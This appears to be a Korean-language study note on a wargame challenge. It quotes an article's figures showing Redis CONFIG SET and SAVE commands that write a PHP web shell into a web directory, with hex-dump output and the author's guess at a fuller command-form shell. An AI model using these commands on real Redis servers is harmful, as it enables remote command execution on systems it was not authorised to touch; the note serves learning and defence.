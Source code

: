 핵심은 파일을 어떻게 저장하고 다시 불러오느냐 하는 점이다 
이 문제의 핵심은 바로 이것이다 

CONFIG SET appendonly yes
CONFIG SET dir /var/www/html/data
CONFIG SET dbfilename index.php
SET <?php system($_GET['cmd']); ?> webshell
(굉장히 깊이가 있는 매우 중요한 단서)

Figure 17. SAVE 명령어를 통한 웹셸 삽입

CONFIG set dir /tmp
CONFIG set dbfilename redis.php
SET test "<?php system($_GET['cmd']); ?>"
SAVE  (그럼 이 save가 워게임으로 치면 save 설정을 눌렀다는 의미로 봐도 되는 건가?) 

Figure17은 파일 저장 경로를 “/tmp”, 파일 이름을 “redis.php”로 지정하고 셸을 실행하는 PHP 코드를 저장합니다. 
해당 명령어가 실행되면 Figure18과 같이 성공적으로 파일이 생성되며 공격자는 이를 통해 PHP 등의 다른 애플리
케이션과 연계해 공격을 수행할 수 있습니다.

Figure 18. SAVE 명령어를 통한 웹셸 삽입 결과

$ ls -al redis.php 
-rw-rw---- 1 redis redis 57 May 17 16:59 redis.php
$ xxd redis.php 
00000000: 5245 4449 5330 3030 36fe 0000 0474 6573  REDIS0006....tes
00000010: 741e 3c3f 7068 7020 7379 7374 656d 2824  t.<?php system($
00000020: 5f47 4554 5b27 636d 6427 5d29 3b20 3f3e  _GET['cmd']); ?>
00000030: ffef 0fe2 9f24 c9b8 a3                   .....$...


내 추측인데 위에 맨 처음 핵심에 설명한 것처럼 config로 기본 설정 깔고 
SET <?php system($_GET['cmd']); ?> <?php echo 'Enter a Command:<br>'; echo '<form action="">'; echo '<input type=text name="cmd">'; echo '<input type="submit">'; echo '</form>';
대충 이렇게 넣은 다음 명령어 실행시켜서 flag값을 얻는 게 아닐까? 
